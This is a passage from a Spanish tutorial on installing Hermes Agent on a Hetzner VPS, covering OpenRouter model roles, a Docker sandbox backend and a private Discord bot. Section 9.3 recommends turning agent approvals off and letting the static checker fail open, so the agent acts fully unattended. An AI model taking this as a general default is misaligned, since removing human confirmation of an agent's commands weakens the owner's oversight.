Si `groups` no incluye `docker` pero `id -nG hermes` sí, confirma que el cambio está hecho a nivel de sistema y solo falta refrescar la sesión.

Tienes tres formas de hacerlo, ordenadas de más simple a más quirúrgica:

**Opción 1 — Cerrar y volver a abrir SSH (la más limpia):**

```bash
exit          # o Ctrl+D — cierra la sesión actual
```

Y desde tu portátil, vuelves a entrar:

```bash
ssh -i ~/.ssh/hetzner_hermes hermes@SERVER_IP
groups        # ahora debería incluir 'docker'
```

**Opción 2 — Sin cerrar SSH, abrir un sub-shell con el grupo recargado:**

```bash
exec sg docker -c bash
groups        # incluye 'docker'
```

`sg` (switch group) lanza un shell con la membresía recargada. Cuando salgas (`exit`), vuelves al shell original sin grupo `docker`. Útil si tienes procesos abiertos en la sesión que no quieres perder.

**Opción 3 — Recargar grupos con `newgrp`:**

```bash
newgrp docker
groups
```

Similar a `sg` pero reemplaza el shell actual. También se sale con `exit`.

Cualquiera de las tres vale. La más recomendable es **opción 1** porque es lo que harás siempre que reconectes y deja todo en estado limpio.

#### Verifica que Docker funciona como `hermes`

```bash
docker run --rm hello-world
docker compose version
```

`hello-world` debe imprimir el mensaje de bienvenida de Docker. Si te dice `permission denied while trying to connect to the Docker daemon socket`, es que el grupo todavía no se aplicó: vuelve al paso anterior y reconecta SSH.

---

## 6. Instalar Hermes Agent

Como usuario `hermes`:

```bash
curl -fsSL https://raw.githubusercontent.com/NousResearch/hermes-agent/main/scripts/install.sh | bash
```

> **Importante: comportamiento real del instalador actual.** Ese comando ya no se limita a "instalar binarios": al terminar abre el asistente interactivo de Hermes para dejar configurado al menos un proveedor LLM. La doc oficial indica que el instalador gestiona dependencias, clona el repo, crea el entorno, expone el comando global `hermes` **y configura el proveedor LLM**. Refs: [Installation](https://hermes-agent.nousresearch.com/docs/getting-started/installation), [Quickstart](https://hermes-agent.nousresearch.com/docs/getting-started/quickstart/).

### 6.1. Qué elegir en el asistente

Cuando acabe la instalación base y aparezca el configurador:

1. Elige **`Quick setup`**.
2. En proveedor, elige **`OpenRouter`**.
3. Pega tu API key de OpenRouter (`sk-or-v1-...`).
4. Si te pide elegir modelo, selecciona uno válido con contexto amplio. Para arrancar, `deepseek/deepseek-v4-pro` es una base razonable y luego lo afinamos en la sección 8.
5. Cuando pregunte si quieres conectar una plataforma de mensajería (`Connect a messaging platform?`), **de momento sáltalo**: deja la selección en `Skip` o confirma sin seleccionar ninguna plataforma. La idea en esta primera pasada es **no configurar todavía el gateway** y comprobar antes que Hermes base funciona bien en CLI.

> El gateway de Discord lo configuraremos después, en el paso 10. Primero validamos instalación, PATH, proveedor, API key y respuesta del modelo en local.

> Según el flujo actual de Hermes, `Quick setup` usa el mismo selector de proveedor/modelo que `hermes model`, pero **omite** partes más largas del `Full setup`, como rotación de credenciales y configuración adicional de visión/TTS. Si más adelante quieres la configuración completa, ejecuta `hermes setup`.

### 6.2. Recargar la shell y verificar el binario

Cuando el asistente termine y vuelvas al prompt, **sí conviene seguir con estos comandos**:

```bash
source ~/.bashrc
hermes --version
```

Por qué:

- `source ~/.bashrc` recarga el `PATH` por si el instalador acaba de añadir `~/.local/bin`.
- `hermes --version` verifica que el comando ya es resoluble desde tu sesión actual.

> Si `source ~/.bashrc` da algún error raro de permisos, abre una sesión SSH nueva como `hermes` y vuelve a probar `hermes --version`. La propia FAQ de Hermes contempla ese caso.

Estructura post-install:

```
~/.hermes/
├── config.yaml      # configuración no-secreta (editable a mano)
├── .env             # API keys y secretos (chmod 600)
├── data/            # memoria, sesiones, FTS5
├── skills/          # skills instaladas
├── cron/            # jobs programados
└── logs/
```

Comprueba que todo está sano:

```bash
hermes doctor
```

---

## 7. Configurar OpenRouter como proveedor

> Si en el paso 6 ya hiciste `Quick setup` → `OpenRouter` y pegaste la API key, **OpenRouter ya ha quedado configurado**. Esta sección se mantiene porque sirve para verificarlo, rehacerlo si algo falló o documentar la ruta manual.

### 7.1. Saca una API key de OpenRouter

1. Crea cuenta en <https://openrouter.ai/>.
2. **Settings → Keys → Create Key**, dale nombre `hermes-hetzner`, **opcional**: pon un límite de gasto mensual (recomendado: empieza en 20–30 $).
3. Copia la key (empieza por `sk-or-v1-…`).

📸 [images/07-openrouter-key.png]

### 7.2. Carga la key en Hermes

Si **no** la metiste ya dentro del asistente del paso 6, puedes cargarla ahora:

```bash
hermes config set OPENROUTER_API_KEY sk-or-v1-XXXXXXXXXXXXXXXXXXXXXXXX
```

> Hermes coloca el secreto automáticamente en `~/.hermes/.env` (no en `config.yaml`). Si prefieres editar a mano: `chmod 600 ~/.hermes/.env` y añade `OPENROUTER_API_KEY=...`.
>
> Ref: [Providers](https://hermes-agent.nousresearch.com/docs/integrations/providers).

#### Verificación importante: confirma que de verdad quedó guardada

En algunas instalaciones conviene **comprobarlo explícitamente** después del wizard:

```bash
grep '^OPENROUTER_API_KEY=' ~/.hermes/.env
hermes auth list
```

Qué deberías ver:

- en `~/.hermes/.env`, una línea `OPENROUTER_API_KEY=sk-or-v1-...`
- en `hermes auth list`, una credencial de `openrouter` con origen `env:OPENROUTER_API_KEY`

Si **no** aparece en `.env`, vuelve a fijarla manualmente:

```bash
hermes config set OPENROUTER_API_KEY sk-or-v1-XXXXXXXXXXXXXXXXXXXXXXXX
```

> **Señal de que Hermes NO está usando tu propia key:** errores `HTTP 429` de OpenRouter con texto parecido a `add your own key to accumulate your rate limits` y metadatos `is_byok: false`. En ese caso, el asistente dejó OpenRouter seleccionado como proveedor, pero la API key no quedó persistida correctamente.

### 7.3. Selecciona el proveedor

Si ya lo elegiste durante `Quick setup`, usa este comando solo para comprobar o cambiar la selección:

```bash
hermes model
```

Elige `openrouter` y, como modelo principal, `deepseek/deepseek-v4-pro`. (En el siguiente paso afinaremos el resto de roles con `hermes config set`).

---

## 8. Configurar varios modelos para distintas tareas

Después del `Quick setup`, Hermes ya tiene un **modelo principal**. Pero eso **no significa** que configure automáticamente todos los demás roles. Lo importante es entender esta separación:

- **`model.default`**: modelo principal del chat normal.
- **`delegation`**: modelo para subagentes; si no lo defines, hereda el principal.
- **`auxiliary.vision`**: tareas multimodales (capturas, análisis de imágenes).
- **`auxiliary.compression`**: resúmenes de contexto cuando la conversación se compacta.
- **`fallback_model`**: modelo de respaldo si el principal falla por rate limit o caída del proveedor.
- **`agent.reasoning_effort`**: intensidad de razonamiento; no es otro modelo, es un ajuste del agente.

En este tutorial vamos a dejarlo así, todo sobre OpenRouter:

| Uso | Configuración |
|-----|---------------|
| **Modelo principal** | `deepseek/deepseek-v4-pro` |
| **Delegation** | `deepseek/deepseek-v4-flash` |
| **Auxiliary vision** | `google/gemini-3-flash-preview` |
| **Auxiliary compression** | `deepseek/deepseek-v4-flash` **o** dejar `auto` |
| **Fallback model** | `deepseek/deepseek-v4-flash` |
| **Reasoning effort** | `medium` (recomendado) o `high` |

> **Recomendación práctica para empezar:** usa `medium`. Sube a `high` solo si ves que en tareas complejas Hermes se queda corto y te compensa pagar algo más de latencia y tokens.

> **Nota práctica si vas a usar Hermes sobre todo desde Discord:** el combo `deepseek/deepseek-v4-pro` + `deepseek/deepseek-v4-flash` funciona bien como punto de partida, pero si el upstream provider de OpenRouter para `v4-pro` se satura o degrada, puedes empezar a ver `HTTP 429` aunque tu key y tu VPS estén bien. En ese caso conviene cambiar temporalmente el modelo principal del bot a otro más estable.

### 8.1. Configúralo con `hermes config set`

No hace falta abrir el YAML a mano. Como usuario `hermes`, ejecuta:

```bash
hermes config set model.default deepseek/deepseek-v4-pro

hermes config set delegation.provider openrouter
hermes config set delegation.model deepseek/deepseek-v4-flash

hermes config set auxiliary.vision.provider openrouter
hermes config set auxiliary.vision.model google/gemini-3-flash-preview

hermes config set fallback_model.provider openrouter
hermes config set fallback_model.model deepseek/deepseek-v4-flash

hermes config set agent.reasoning_effort medium
hermes config set display.personality technical
hermes config set display.show_reasoning true

hermes config set auxiliary.compression.provider openrouter
hermes config set auxiliary.compression.model deepseek/deepseek-v4-flash
```

### 8.1.1. Bloque final recomendado para Discord si DeepSeek V4 Pro se satura

Si ves errores como estos:

```text
⚠️ Rate limited — switching to fallback provider...
❌ Rate limited after 3 retries — HTTP 429: Provider returned error
```

y en OpenRouter ves que el uptime/health de `deepseek-v4-pro` ha caído, una combinación más robusta para el bot de Discord es:

- **principal**: `qwen/qwen3.6-plus`
- **fallback**: `minimax/minimax-m2.7`
- **delegation**: `minimax/minimax-m2.7`
- **compression**: `qwen/qwen3.6-plus`
- **vision**: `google/gemini-3-flash-preview`

Bloque listo para copiar:

```bash
hermes config set model.provider openrouter
hermes config set model.default qwen/qwen3.6-plus

hermes config set fallback_model.provider openrouter
hermes config set fallback_model.model minimax/minimax-m2.7

hermes config set delegation.provider openrouter
hermes config set delegation.model minimax/minimax-m2.7

hermes config set auxiliary.compression.provider openrouter
hermes config set auxiliary.compression.model qwen/qwen3.6-plus

hermes config set auxiliary.vision.provider openrouter
hermes config set auxiliary.vision.model google/gemini-3-flash-preview

hermes config set agent.reasoning_effort medium
hermes config set display.personality technical
hermes config set display.show_reasoning true
hermes config set timezone Europe/Madrid

hermes config set provider_routing.sort throughput
```

Después de cambiar modelos, reinicia el gateway para que el servicio cargue la config nueva:

```bash
sudo "$(command -v hermes)" gateway stop --system
sudo "$(command -v hermes)" gateway start --system
sudo "$(command -v hermes)" gateway status --system
```

Si quieres verificar el resultado completo en el fichero:

```bash
grep -n "default:\\|delegation:\\|fallback_model:\\|reasoning_effort:\\|personality:\\|show_reasoning:\\|timezone:\\|vision:\\|compression:" ~/.hermes/config.yaml
```

> **Qué está pasando en ese escenario:** normalmente no es un problema de timeout ni de tu VPS. OpenRouter balancea entre varios providers y, si el upstream del modelo elegido está saturado o degradado, puede devolverte `429` aunque todo lo local esté correcto. Por eso conviene tener un `fallback_model` real y, si hace falta, cambiar temporalmente el modelo principal del canal interactivo de Discord.
>
> También conviene que el **modelo de compresión** tenga una ventana de contexto grande. Si usas un compresor con menos contexto que el umbral de compresión del modelo principal, Hermes bajará el threshold de esa sesión para que quepa. Por eso, en este bloque final, dejamos `qwen/qwen3.6-plus` también en compresión.


### 8.2. Comprueba cómo ha quedado

```bash
hermes config
```

Aquí hay un matiz importante: **`hermes config` no imprime todo el YAML**, sino un **resumen** de los valores principales. Por eso es normal que veas cosas como:

- `Model` con el principal actual (por ejemplo `qwen/qwen3.6-plus`)
- `Display` con `Personality: technical`
- `Display` con `Reasoning: on`
- `Context Compression` con el modelo auxiliar que hayas fijado
- `Auxiliary Models (overrides)` con `Vision`

Y que, en cambio, **no aparezcan explícitamente** en esa pantalla resumida:

- `delegation`
- `fallback_model`
- algunas claves internas de `agent`

> Otro detalle que confunde: en `hermes config`, el campo **`Display → Reasoning`** se refiere a **mostrar u ocultar el razonamiento en pantalla**, **no** a `agent.reasoning_effort`. Son ajustes distintos: puedes tener `agent.reasoning_effort: medium` con `Display → Reasoning: on` o `off`, según quieras ver o esconder ese razonamiento en la salida.

Para verificar la configuración completa, comprueba también el archivo real:

```bash
grep -n "default:\\|delegation:\\|fallback_model:\\|reasoning_effort:\\|personality:\\|show_reasoning:\\|vision:\\|compression:" ~/.hermes/config.yaml
```

En el YAML deberías tener, como mínimo, algo equivalente a esto:

```yaml
model:
  default: qwen/qwen3.6-plus

delegation:
  provider: openrouter
  model: minimax/minimax-m2.7

auxiliary:
  vision:
    provider: openrouter
    model: google/gemini-3-flash-preview
  compression:
    provider: openrouter
    model: qwen/qwen3.6-plus

fallback_model:
  provider: openrouter
  model: minimax/minimax-m2.7

agent:
  reasoning_effort: medium

display:
  personality: technical
  show_reasoning: true

timezone: Europe/Madrid
```

### 8.3. Qué se hereda automáticamente y qué no

Esto es lo que más confunde al principio:

- Si **no** configuras `delegation`, los subagentes heredan el modelo principal.
- `auxiliary.vision` y `auxiliary.compression` **no** heredan automáticamente el modelo principal; usan su propia resolución auxiliar.
- `fallback_model` **no** se deduce solo: si no lo defines, no hay failover explícito.
- `agent.reasoning_effort` no cambia de modelo; solo ajusta cómo usa el modelo elegido.

### 8.4. Cambiar de modelo en caliente

Desde CLI o desde Discord más adelante:

```text
/model openrouter:deepseek/deepseek-v4-pro
/model openrouter:deepseek/deepseek-v4-flash
```

Úsalo para pruebas puntuales. Para que el comportamiento estable sobreviva reinicios, deja la configuración persistida con `hermes config set`.

---

## 9. Skills de código y backend Docker para ejecución segura

### 9.1. Activa el backend Docker

Esto hace que **todos los comandos que Hermes ejecute** (incluido `git`, `python`, `npm`, etc.) corran dentro de un contenedor sandbox, no directamente en el host.

Si prefieres dejarlo configurado sin tocar `config.yaml` a mano, ejecuta:

```bash
hermes config set terminal.backend docker
hermes config set terminal.docker_image nousresearch/hermes-agent:latest
hermes config set terminal.docker_mount_cwd_to_workspace true
hermes config set terminal.docker_volumes '["/home/hermes/projects:/workspace/projects","/home/hermes/.hermes/cache/documents:/output"]'
hermes config set terminal.docker_forward_env '["OPENROUTER_API_KEY"]'
hermes config set terminal.container_cpu 2
hermes config set terminal.container_memory 4096
hermes config set terminal.container_persistent true

hermes config set code_execution.mode project
hermes config set code_execution.timeout 300
hermes config set code_execution.max_tool_calls 50
```

> Para listas como `docker_volumes` y `docker_forward_env`, usa comillas simples por fuera y JSON por dentro, tal como en el ejemplo. Así Hermes lo guarda correctamente como array en `config.yaml`.
>
> De momento reenviamos solo `OPENROUTER_API_KEY`. `GITHUB_TOKEN` lo añadiremos más adelante, cuando realmente lo configuremos. En `docker_forward_env` no van los valores reales de los secretos, sino **los nombres** de las variables que Hermes debe copiar dentro del contenedor.
>
> En esta guía usamos `nousresearch/hermes-agent:latest` como imagen del sandbox porque la documentación oficial indica que ya incluye Python, Node, npm, Playwright con Chromium, `ripgrep` y `ffmpeg`. Para un VPS donde Hermes va a programar, navegar y automatizar, es más práctico partir de una imagen generalista ya preparada que de una imagen más mínima.
>
> Añadimos también este mount:
>
> ```text
> /home/hermes/.hermes/cache/documents:/output
> ```
>
> porque la documentación oficial recomienda un **host-visible export mount** cuando usas mensajería + backend Docker. Así, si Hermes genera un archivo dentro del contenedor, puede escribirlo en `/output/...` y luego el gateway del host lo ve en `/home/hermes/.hermes/cache/documents/...` para enviarlo por Discord, Telegram, etc.
>
> Dejamos `terminal.container_cpu: 2` y `terminal.container_memory: 4096` porque en este tutorial estamos usando un **Hetzner CX32** (4 vCPU, 8 GB RAM). Reservar **2 vCPU y 4 GB** para el sandbox Docker es un punto medio razonable: da margen suficiente para `npm`, `python`, builds, tests y browser tools sin comerse todos los recursos del VPS ni dejar sin aire al propio Hermes, al gateway y al sistema base.

```yaml
# añade/edita en ~/.hermes/config.yaml
terminal:
  backend: docker
  docker_image: nousresearch/hermes-agent:latest
  docker_mount_cwd_to_workspace: true
  docker_volumes:
    - "/home/hermes/projects:/workspace/projects"
    - "/home/hermes/.hermes/cache/documents:/output"
  docker_forward_env:
    - OPENROUTER_API_KEY
  container_cpu: 2
  container_memory: 4096
  container_persistent: true

code_execution:
  mode: project
  timeout: 300
  max_tool_calls: 50
```

> Ref: [Configuration → Terminal Backends](https://hermes-agent.nousresearch.com/docs/user-guide/configuration/).

Si al arrancar el gateway como servicio ves una advertencia parecida a esta:

```text
WARNING gateway.run: Docker backend is enabled for the messaging gateway but no explicit host-visible output mount ...
```

significa que al contenedor le falta justo ese segundo mount de exportación. La forma correcta de evitarlo es dejar `docker_volumes` como en el ejemplo de arriba, con:

```text
/home/hermes/.hermes/cache/documents:/output
```

### 9.2. Skills útiles para programar

Hermes ya instala un buen número de **skills bundled** en `~/.hermes/skills/`, así que en este punto del tutorial **no hace falta instalar skills adicionales** para empezar. Lo más útil es saber:

- qué skills te ha dejado ya disponibles
- cómo inspeccionarlas
- cómo añadir skills extra más adelante si aparece una necesidad concreta

### 9.2.1. Ver las skills que ya tienes

```bash
hermes skills list
```

Si quieres ver el catálogo oficial o buscar algo concreto:

```bash
hermes skills browse --source official
hermes skills search github
hermes skills search docker
```

Y si quieres inspeccionar una skill antes de usarla:

```bash
hermes skills inspect github-pr-workflow
hermes skills inspect writing-plans
```

### 9.2.2. Añadir más skills si las necesitas

Cuando detectes un workflow que Hermes no cubre bien de serie, puedes instalar skills adicionales desde el hub oficial o desde otras fuentes soportadas.

Ejemplos:

```bash
hermes skills install official/security/1password
hermes skills install openai/skills/k8s
```

También puedes buscar antes de instalar:

```bash
hermes skills search react --source skills-sh
hermes skills search kubernetes
```

> La documentación oficial explica que Hermes soporta varias fuentes de skills: las **official** mantenidas dentro del ecosistema Hermes, skills servidas desde GitHub, skills.sh y otros hubs compatibles. Todas pasan por un escaneo de seguridad antes de instalarse.

### 9.2.3. Recomendación práctica para este tutorial

De momento, deja las skills como vienen y no sobrecargues el sistema con skills de terceros “por si acaso”.

La estrategia más sensata aquí es:

1. usar primero las skills bundled
2. observar qué tareas repites de verdad
3. instalar solo skills extra cuando tengas un caso claro

Así mantienes Hermes más simple, más predecible y más fácil de depurar.

### 9.3. Aprobaciones automáticas (modo off)

Como **todos los comandos se ejecutan dentro del contenedor Docker** del paso 9.1 y el host está aislado, puedes apagar las aprobaciones por completo. Esto permite que Hermes trabaje 100 % desatendido desde Discord sin pedirte confirmación cuando lanza `npm install`, `docker compose up`, `git push`, etc.

```bash
hermes config set approvals.mode off
hermes config set security.redact_secrets true
hermes config set security.tirith_enabled true
hermes config set security.tirith_timeout 5
hermes config set security.tirith_fail_open true
```

**Por qué es razonable hacerlo aquí:**

- El sandbox Docker (`terminal.backend: docker`) impide tocar el host directamente.
- `tirith_enabled: true` aplica análisis estático antes de ejecutar y bloquea patrones obviamente destructivos (p.ej. `rm -rf /`).
- `redact_secrets` enmascara `.env`, tokens y keys antes de enviar al LLM, así no se filtran al historial de OpenRouter.
- `DISCORD_ALLOWED_USERS` ya restringe quién puede dar órdenes al agente.
- Hetzner hace snapshot diario (paso 3.3) y `restic` offsite (paso 17.2): si algo se rompe, restauras.

> Si en algún momento prefieres volver a confirmaciones, cambia a `mode: smart` (Hermes pregunta solo en lo destructivo, usando el modelo auxiliar) o `mode: manual` (todo confirmado). Ref: [Configuration → Security & Approvals](https://hermes-agent.nousresearch.com/docs/user-guide/configuration/).

### 9.4. Browser automation: lo dejamos para una iteración posterior

Hermes soporta navegación web y automatización de navegador, tanto con browser local como con proveedores cloud. Pero en **este VPS concreto** no hemos dejado el camino de navegador completamente validado y estable todavía.

En las pruebas reales de esta guía nos pasó esto:

- el `browser` toolset sí intenta abrir páginas
- pero el navegador local cae por problemas de **sandbox**
- y Hermes hace fallback a herramientas como `curl` o extracción por terminal/Python

Por tanto, para que este tutorial refleje el estado real del sistema, **no vamos a vender todavía “Chromium local funcionando” como parte del setup base**.

Qué dejamos sí preparado:

- la imagen Docker `nousresearch/hermes-agent:latest`, que es una buena base generalista
- el espacio para trabajar más adelante con `agent-browser`, CDP o un proveedor cloud
- la constatación de que el backend principal de Hermes, Discord, Docker sandbox y modelos LLM sí funcionan

Qué dejamos fuera de este walkthrough base:

- instalación y validación completa de Chromium local
- conexión por CDP a un navegador del host
- automatización browser end-to-end confirmada desde Discord

> En otras palabras: **browser automation queda como próximo paso**, no como requisito para dar por buena esta instalación de Hermes en Hetzner.

---

## 10. Conectar Hermes con Discord

Sigue [docs/user-guide/messaging/discord](https://hermes-agent.nousresearch.com/docs/user-guide/messaging/discord).

Antes de entrar en clicks concretos, ayuda mucho entender **qué pinta cada apartado del portal de Discord**. Siguiendo el orden actual de la UI y la documentación oficial:

- **Información general**: identidad básica de la app. Aquí ves `Application ID`, `Public Key`, nombre, icono, descripción y URLs como la `Interactions Endpoint URL`. Para Hermes por gateway, normalmente solo te importa el nombre, el icono y, como referencia, el `Application ID`. No necesitas montar `Interactions Endpoint URL` para el flujo de bot/gateway que usamos aquí.
- **Instalaciones**: define **cómo** se instala tu app en Discord. Aquí eliges `Guild Install` y/o `User Install`, el tipo de enlace de instalación y los scopes/permisos por defecto. En la UI actual, este apartado es clave: aquí es donde realmente decides si tu bot se puede añadir a servidores, si será instalable por usuarios individuales y qué permisos pedirá al instalarse.
  
  Para **este caso concreto**, **no queremos que sea público** ni que otros usuarios puedan añadir la app a su cuenta y hablar con tu instancia de Hermes. La idea es que el bot viva solo en **tu servidor** y que, además, Hermes responda solo a los usuarios que tú autorices con `DISCORD_ALLOWED_USERS`.
  
  Configuración recomendada en **Instalación**:
  
  - **Instalación de usuarios**: **OFF**
  - **Instalación de servidor**: **ON**
  - **Enlace de instalación**: puedes dejar **Enlace proporcionado por Discord** como referencia visual, pero **no será el método que usaremos para invitar el bot** si `Public Bot = OFF`
  - **Ajustes de instalación predeterminados → Instalación de usuarios**: no usar / dejar desactivado
  - **Ajustes de instalación predeterminados → Instalación de servidor**: opcional como referencia, pero en este caso mandará la **Manual URL** del paso 10.2
  
  Con esto consigues dos cosas:
  
  - evitas que la app quede disponible como instalación personal tipo “añadir a mis apps”
  - fuerzas un flujo controlado donde solo tú la instalas en tu propio servidor
- **OAuth2**: ajustes de autorización más avanzados. Sirve para flujos OAuth clásicos, URLs de redirect, scopes de login y casos donde tu app necesita actuar en nombre de un usuario o conectar cuentas externas. Para este tutorial de Hermes no es el centro del flujo. De hecho, dejamos `Requires OAuth2 Code Grant` apagado y evitamos complicarlo.
- **Bot**: configuración del usuario bot. Aquí están el token, `Public Bot`, `Requires OAuth2 Code Grant`, los privileged intents y la calculadora de permisos. Para Hermes este apartado sí es crítico porque de aquí salen el token y el `Message Content Intent`.
- **Emojis**: gestiona emojis propios de la aplicación. Discord permite subir emojis de app para usarlos como recursos visuales. No es necesario para Hermes.
- **Webhooks**: sirve para dos familias distintas: webhooks entrantes para publicar mensajes en canales y event webhooks para que Discord te envíe eventos HTTP. Para este tutorial no lo usamos porque Hermes se conecta como bot por gateway, no por webhook.
- **Rich Presence**: pensado sobre todo para juegos, Activities y experiencias sociales que muestran actividad viva en el perfil del usuario. No es necesario para Hermes como asistente de Discord.
- **Testers de la aplicación**: permite dar acceso controlado a testers en flujos donde la app necesita pruebas cerradas, especialmente para Activities u otras experiencias más distribuidas. Para un bot privado de Hermes no suele hacer falta.
- **Verificación de la aplicación**: entra en juego cuando tu app crece, pide permisos sensibles a escala o necesitas revisión de Discord. Para un bot personal en pocos servidores no suele ser un paso inmediato, pero conviene saber que existe si superas ciertos umbrales o quieres operar con más visibilidad.

Resumen práctico para este caso:

- **tocamos de verdad**: `Información general`, `Instalaciones` y `Bot`
- **podemos ignorar de momento**: `OAuth2`, `Emojis`, `Webhooks`, `Rich Presence`, `Testers de la aplicación`, `Verificación de la aplicación`

### 10.1. Crea la app y el bot

1. Entra en <https://discord.com/developers/applications> → **New Application** → nombre `Hermes Lab`.
2. En **General Information**:
   - pon nombre, icono y descripción si quieres
   - no hace falta tocar OAuth2, Interactions Endpoint URL ni nada de webhooks para Hermes por gateway
3. Pestaña **Bot**:
   - **Public Bot**: **OFF**.
   - **Requires OAuth2 Code Grant**: **OFF**.
   - **Privileged Gateway Intents**:
     - ❌ **Presence Intent**: **OFF** (Hermes no lo necesita para este caso).
     - ✅ **Message Content Intent**: **ON** (obligatorio para que Hermes lea el texto de los mensajes normales).
     - ✅ **Server Members Intent**: **ON**. La documentación oficial de Hermes lo trata como requerido para poder resolver correctamente usuarios permitidos y evitar fallos de identificación.
4. **Reset Token** → copia el token (solo se muestra una vez).

> **Qué significa `Public Bot`:** si está en `ON`, otros usuarios con permisos suficientes podrían invitar tu bot a sus propios servidores. Si quieres que esta instancia de Hermes sea solo tuya, déjalo en **OFF**.
>
> Incluso con `Public Bot: OFF`, mantén `DISCORD_ALLOWED_USERS` configurado con tu propio User ID. Eso hace que, aunque el bot esté presente en un servidor, Hermes ignore a cualquier usuario no autorizado por seguridad.

> **Qué significa `Requires OAuth2 Code Grant`:** déjalo en **OFF**. Ese flujo completo de OAuth2 no es necesario para el uso normal de Hermes como bot en tu servidor y solo complica la instalación.

> **Importante con la UI actual de Discord:** en la pestaña **Bot** ves también una gran tabla de “Permisos del bot”. Tómala como calculadora o referencia. En la práctica, si usas **Discord Provided Link**, los permisos que importan para la instalación se fijan en la pestaña **Installation**, dentro de **Default Install Settings**.

📸 [images/11-discord-bot-intents.png]

### 10.2. Genera el invite link

En la documentación oficial de Hermes hay dos caminos:

- **Option A: Installation tab** → recomendado solo si `Public Bot = ON`
- **Option B: Manual URL** → obligatorio si `Public Bot = OFF`

Como en **esta guía queremos el bot privado**, **nuestro caso es Option B: Manual URL**.

1. Ve a **Installation**.
2. En **Installation Contexts**:
   - ✅ **Guild Install**: **ON**
   - ❌ **User Install**: **OFF**
3. Si ves **Discord Provided Link**, tómalo solo como referencia visual del portal, **pero no lo uses**: con `Public Bot = OFF`, la propia documentación de Hermes indica que debes invitar el bot con una **Manual URL**.
4. Copia tu **Application ID** desde **General Information**.
5. Construye esta URL manual:

```text
https://discord.com/oauth2/authorize?client_id=TU_APPLICATION_ID&scope=bot+applications.commands&permissions=274878286912
```

Sustituye `TU_APPLICATION_ID` por el ID real de tu aplicación.

> La doc oficial de Hermes lo dice explícitamente: **“If you prefer to keep your bot private (Public Bot = OFF), you must use the Manual URL method in Step 5 instead of the Installation tab. The Discord-provided link requires Public Bot to be enabled.”**

#### Permisos recomendados según la doc oficial de Hermes

Estos son los permisos **mínimos/útiles** que Hermes recomienda para Discord:

- **View Channels** — ver los canales a los que tiene acceso
- **Send Messages** — responder
- **Embed Links** — formatear respuestas enriquecidas
- **Attach Files** — enviar imágenes, audio y archivos generados
- **Read Message History** — mantener contexto de conversación
- **Send Messages in Threads** — responder dentro de hilos
- **Add Reactions** — poner reacciones de estado (👀, ✅, ❌)

> Como `DISCORD_AUTO_THREAD=true` y `DISCORD_REACTIONS=true` son defaults importantes en Hermes, para esta guía recomiendo directamente el set **recommended** de la documentación oficial, no el mínimo.

#### Enteros de permisos útiles

La documentación oficial de Hermes da estos dos valores:

- **Minimal**: `117760`
- **Recommended**: `274878286912`

Para este tutorial usa **Recommended**:

```text
permissions=274878286912
```

Abre la URL manual en tu navegador, elige tu servidor y autoriza la instalación.

📸 [images/12-discord-invite.png]

> **Privacidad recomendada para esta guía:** no dejes abierto **User Install** si no necesitas que el bot funcione como app instalable por usuarios individuales. Para este laboratorio, lo normal es:
>
> - usar **Guild Install**
> - invitar el bot solo a **tu propio servidor**
> - mantener **`Public Bot: OFF`**
>
> Con eso reduces al mínimo la superficie de exposición y evitas que otros usuarios instalen o distribuyan tu bot fuera de tu entorno controlado.

> **Resumen del cambio importante en la documentación actual de Discord:** antes mucha gente configuraba scopes y permisos pensando en OAuth2 clásico o mirando solo la pestaña **Bot**. Ahora, con la UI moderna, lo correcto para este caso es:
>
> - **Bot**: token + intents + privacidad del bot
> - **Installation**: contexts + install link + scopes + permisos efectivos de instalación
>
> Pero en **tu caso privado**, con `Public Bot: OFF`, la invitación real se hace con la **Manual URL** de arriba, no con el enlace autogenerado de Discord.

### 10.3. Saca tu Discord User ID

Discord → **Settings → Advanced → Developer Mode ON** → click derecho sobre tu nombre → **Copy User ID**.

### 10.4. Configura Hermes

Opción interactiva:
```bash
hermes gateway setup
```
En el selector de plataformas:

- muévete con las flechas hasta `Discord`
- pulsa **`Space`** para marcarlo como seleccionado (`[x] Discord`)
- pulsa **`Enter`** solo para confirmar la selección

> **Ojo con este detalle:** `Enter` **no** marca la plataforma, solo confirma la pantalla actual. Si pulsas `Enter` sin haber hecho antes `Space`, Hermes interpreta que no has seleccionado ninguna y muestra `No platforms selected`.

Después de marcar `Discord` correctamente, el asistente te pedirá:

- el **bot token** de Discord
- tu **Discord User ID** para `DISCORD_ALLOWED_USERS`
- opcionalmente, un **Channel ID** si quieres dejar preconfigurado un canal “home” para mensajes proactivos (`DISCORD_HOME_CHANNEL`)

Si ya saliste del wizard inicial sin configurarlo, no pasa nada: vuelve al prompt y ejecuta otra vez `hermes gateway setup`.

> Este comando se ejecuta **desde tu shell del VPS**, no desde dentro de una conversación interactiva de `hermes`. Si estás dentro de la interfaz de chat, sal con `Ctrl+C` y luego lánzalo desde el prompt normal.

Opción manual (`~/.hermes/.env`, `chmod 600`):
```
DISCORD_BOT_TOKEN=MTAwOTk...tu-token-completo
DISCORD_ALLOWED_USERS=284102345871466496
DISCORD_HOME_CHANNEL=123456789012345678
DISCORD_REQUIRE_MENTION=true
DISCORD_AUTO_THREAD=true
```

Bloque final recomendado para **este tutorial** (bot privado, un único operador, servidor propio):

```env
DISCORD_BOT_TOKEN=pega_aqui_el_token_real_del_bot
DISCORD_ALLOWED_USERS=pega_aqui_tu_discord_user_id
DISCORD_HOME_CHANNEL=pega_aqui_el_channel_id_donde_quieres_notificaciones
DISCORD_REQUIRE_MENTION=true
DISCORD_AUTO_THREAD=true
DISCORD_REACTIONS=true
```

Qué significa cada línea:

- `DISCORD_BOT_TOKEN`: el token del bot sacado de la pestaña **Bot**
- `DISCORD_ALLOWED_USERS`: tu `User ID` de Discord; Hermes solo responderá a esos usuarios
- `DISCORD_HOME_CHANNEL`: canal “home” para cron, avisos y salidas proactivas
- `DISCORD_REQUIRE_MENTION=true`: en canales de servidor, Hermes solo responde si lo mencionas con `@`
- `DISCORD_AUTO_THREAD=true`: cada mención en un canal normal abre un hilo nuevo para aislar la conversación
- `DISCORD_REACTIONS=true`: Hermes usa reacciones emoji de estado cuando corresponde

> Si todavía no tienes claro qué canal usar como `DISCORD_HOME_CHANNEL`, puedes dejar esa línea fuera al principio y fijarlo después desde Discord con `/sethome`.

(Opcional, en `config.yaml`):
```yaml
discord:
  require_mention: true
  free_response_channels: ""        # canales donde responde sin @mención
  auto_thread: true
group_sessions_per_user: true       # cada usuario tiene su contexto en canales compartidos
unauthorized_dm_behavior: ignore    # ignore | pair
```

